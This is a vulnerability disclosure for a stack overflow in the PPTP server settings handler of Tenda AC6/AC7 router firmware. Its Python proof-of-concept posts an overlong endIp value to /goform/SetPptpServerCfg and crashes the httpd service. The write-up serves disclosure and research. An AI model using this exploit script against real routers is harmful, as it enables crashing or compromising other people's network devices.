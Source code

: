 # AC6_Stack_overflow

Vender ：Tenda

Firmware version:US_AC6V1.0BR_V15.03.05.16_multi_TD01 && US_AC7V1.0RTL_V15.03.06.44_multi_TD01.bin

Exploit Author: doudoudedi233@gmail.com

Vendor Homepage: https://www.tenda.com.cn/default.html

Hardware Link:https://www.tenda.com.cn/download/detail-2661.html


#### Describe

​	In Tenda AC6 firemware is US_AC6V1.0BR_V15.03.05.16_multi_TD01. The vulnerability lies in the setting of PPTP service / goform / setpptpservercfg in Tenda AC6 httpd component. If the length of startip and endip parameters is not well limited, it will lead to stack overflow.

#### Detail

​	Https form formSetPPTPServer fuction in IDA view

<img src="./img/image-20210916182726736.png" alt="image-20210916182726736" style="zoom:50%;" />

<img src="./img/image-20210916183154601.png" alt="image-20210916183154601" style="zoom:50%;" />

​	Due to the pointer defined in the function, the values of the startip parameter and endip parameter will be stored on the stack, and the length is not limited, resulting in a vulnerability

#### TEST

<img src="./img/image-20210916183755046.png" alt="image-20210916183755046" style="zoom:50%;" />

​		Grab HTTP packets

<img src="./img/image-20210916183819454.png" alt="image-20210916183819454" style="zoom:50%;" />

 	Parameterize request 

<img src="./img/image-20210916184146710.png" alt="image-20210916184146710" style="zoom:50%;" />

​	can see the service crash

<img src="./img/image-20210916184102459.png" alt="image-20210916184102459" style="zoom:50%;" />



#### POC

```
import requests
from pwn import *

url = "http://192.168.0.1/goform/SetPptpServerCfg"
payload = "a"*0x9c+"bbbb"
data={
	"serverEn":"1",
	"startIp":"100.0.0.100",
	"endIp":"100.0.0.200"+payload,
	"mppe":"1",
	"mppeOp":"40"
}
headers={
	"Host":"1192.168.0.1",
	"User-Agent":"Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0",
	"Accept":"*/*",
	"Accept-Language":"en-US,en;q=0.5",
	"Accept-Encoding":"gzip, deflate",
	"Content-Type":"application/x-www-form-urlencoded; charset=UTF-8",
	"X-Requested-With":"XMLHttpRequest",
	"Origin":"http://192.168.0.1",
	"Referer":"http://192.168.0.1/pptp_server.html?random=0.7706434999271096&",
	"Upgrade-Insecure-Requests":"1"
}
response = requests.request("POST", url, headers=headers, data=data)
```



